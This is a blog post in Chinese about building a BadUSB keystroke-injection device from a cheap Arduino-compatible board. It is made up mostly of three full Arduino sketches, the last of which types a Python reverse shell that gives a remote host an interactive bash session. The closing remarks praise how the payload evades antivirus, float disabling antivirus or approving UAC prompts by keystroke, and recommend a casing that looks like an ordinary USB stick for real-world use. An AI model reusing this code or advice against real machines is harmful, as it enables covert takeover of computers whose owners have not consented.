 ```yaml
---
layout:		post
title:		"badusb试玩"
subtitle:	"物理攻击警告"
date:		2019-08-06 20:46:25  +0800
author:		"Les1ie"
catlog:   true
tags: 
  - websecurity
  - badusb
---
```

# 序
板子用的beetle usb atmega32u4 

自带usb接口，比较便宜，以前看过多款badusb的板子，但是都因为比较贵而放弃，直到前两天hx说了这个板子也可以，于是果断下单。

![](http://static.scuseek.com/20190806-204731.png)

板子类型选择arduino leonardo，编译上传即可
![](http://static.scuseek.com/20190806-204939.png)

# 上手试玩
代码很简单，一看就懂。 

## windows弹计算器

```c
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);
  delay(50);
  Keyboard.press('r');
  delay(50);
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(50);
  Keyboard.println("calc");
  delay(50);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(50);  
}

void loop() {
  // put your main code here, to run repeatedly:

}
```


## ubuntu 开终端
```c
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
/*
  Keyboard.press(KEY_LEFT_CTRL);
  delay(500);
  Keyboard.press(KEY_LEFT_ALT);
  delay(500);
  Keyboard.press('T');
  delay(500);
  Keyboard.release('T');
  */
  Keyboard.press(KEY_LEFT_GUI);
  delay(500);
  Keyboard.release(KEY_LEFT_GUI);
  delay(500);
  Keyboard.println("term");
  delay(500);

  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);


  Keyboard.println("echo hacked");
  delay(500);
  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);
  delay(50);
}

void loop() {
  // put your main code here, to run repeatedly:

}
```


## ubuntu反弹shell
```c
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
/*
  Keyboard.press(KEY_LEFT_CTRL);
  delay(500);
  Keyboard.press(KEY_LEFT_ALT);
  delay(500);
  Keyboard.press('T');
  delay(500);
  Keyboard.release('T');
  */
  Keyboard.press(KEY_LEFT_GUI);
  delay(500);
  Keyboard.release(KEY_LEFT_GUI);
  delay(500);
  Keyboard.println("term");
  delay(500);

  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);


  Keyboard.println("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.30\",8800));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'
");
  delay(500);
  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);
  delay(50);
}

void loop() {
  // put your main code here, to run repeatedly:

}
```


# 跋
代码异常简单，执行过程也毫不隐蔽，难点在于如何把做好的板子插到目标设备上 :)

模拟的键盘设备，试过了5台电脑，其中三台win10有杀软，两台ubuntu，全部正常运行，没有遇到拦截的情况。

如果有恶意命令，可能会被拦截，似乎火绒会拦截命令行创建用户的命令

板子模拟键盘操作关掉杀软也是可以的 :)  然而暂时没想到如何用键盘快捷键关掉杀软。在执行过程中模拟点击允许该程序执行、同意UAC可能也是可以的。

淘宝上这款板子有的是带壳子的，外观就是一个普通的优盘。如果实战使用的话可能更好。

Les1ie

2019年8月7日09:35:43
